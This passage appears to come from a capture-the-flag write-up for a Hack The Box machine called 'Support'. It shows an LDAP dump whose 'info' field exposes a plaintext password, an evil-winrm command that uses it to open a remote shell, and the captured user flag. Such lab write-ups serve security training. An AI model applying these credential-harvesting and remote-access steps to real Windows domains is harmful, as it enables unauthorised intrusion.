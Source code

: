 ```text-plain
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

Shell Access Using EvilWinRM
----------------------------

Lets try that credential out with the support account using EvilWinRM on our target. Hey, it works! We now have shell access on the target as the support account.

```text-plain
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'

pwd

Path
----
C:\Users\support\Documents
```

 The user flag can be found at ‘C:\\Users\\support\\Desktop\\flag.txt’

```text-plain
cat user.txt
155cd7d81dedd2e1d8dfd6406d9b4c3c
```
